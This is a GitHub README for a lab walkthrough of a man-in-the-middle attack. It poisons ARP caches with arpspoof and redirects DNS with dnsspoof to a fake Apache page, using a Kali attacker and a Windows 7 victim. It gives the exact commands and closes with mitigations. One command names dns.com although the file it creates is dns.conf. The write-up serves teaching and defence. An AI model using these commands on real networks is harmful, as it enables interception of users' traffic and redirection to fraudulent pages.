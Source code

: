 # DNS-Spoofing-Attack-Walkthrough

 📌 Introduction
This project demonstrates a **Man-in-the-Middle (MITM) attack using ARP spoofing and DNS spoofing** on a local network.  
The attacker (Kali Linux) poisons the ARP cache of both the **victim (Windows 7)** and the **gateway (router)**, intercepts DNS requests, and redirects them to a fake website hosted on the attacker machine using **Apache2**.  

⚠️ **Disclaimer**: This project is for **educational purposes only** in a controlled lab environment. Do not attempt on real networks.  

---

## 🖥️ Lab Setup
- **Attacker**: Kali Linux  
- **Victim**: Windows 7  
- **Gateway/Router** 
- **Network**: VMware/VirtualBox Host-only or NAT  

---

## ⚙️ Steps

### 1. Enable IP Forwarding

echo 1 > /proc/sys/net/ipv4/ip_forward

This allows Kali to forward traffic between victim and gateway.

---

2. ARP Spoofing

Poison victim’s ARP table (tell victim that attacker = router):

arpspoof -i eth0 -t 192.168.152.8 192.168.152.2


Poison router’s ARP table (tell router that attacker = victim):

arpspoof -i eth0 -t 192.168.152.2 192.168.152.50

---

3. Set Up Fake Website

Start Apache2 web server:

service apache2 start


Place your fake page inside:

/var/www/html/index.html

---

4. Create DNS Spoof File

Create dns.conf file in your home directory:

192.168.152.50    *


This redirects all DNS requests to attacker’s IP.

5. Run DNS Spoof
   
dnsspoof -i eth0 -f dns.com


📸 Example Output:

dnsspoof: listening on eth0 [udp dst port 53 and not src 192.168.152.50]

---

6. Victim Browsing

When the victim (Win7) visits any website, DNS request is spoofed → redirected to attacker’s web server.

---

📝 Results

Victim’s traffic successfully redirected.

Attacker controls DNS resolution.

Fake webpage displayed to victim.

---

🔒 Mitigation

Use HTTPS with DNSSEC

Enable static ARP entries

Use IDS/IPS tools like Snort

Avoid untrusted networks

---

📷 Screenshots

ARP Spoof terminal → [Arpspoof1.png](https://github.com/vaibhavkhare45/-DNS-Spoofing-Attack-Walkthrough/blob/main/Arpspoof1.png)

DNS Spoof terminal → ./images/dnsspoof.png

Apache running → ./images/apache.png

Victim spoofed webpage → ./images/victim_browser.png
